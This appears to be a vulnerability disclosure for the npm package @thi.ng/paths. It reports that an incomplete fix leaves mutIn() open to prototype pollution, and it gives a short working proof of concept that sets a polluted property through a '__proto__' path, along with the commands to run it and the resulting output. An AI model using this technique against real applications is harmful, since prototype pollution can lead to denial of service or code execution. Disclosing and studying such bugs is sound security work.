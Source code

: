 # Description

`@thi.ng/paths` is vulnerable to `Prototype Pollution`. The vulnerability is due to an incomplete fix. `mutIn()` function does not have fix implemented.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const paths = require('@thi.ng/paths')

console.log(`Before: ${{}.polluted}`)
paths.mutIn({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @thi.ng/paths # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

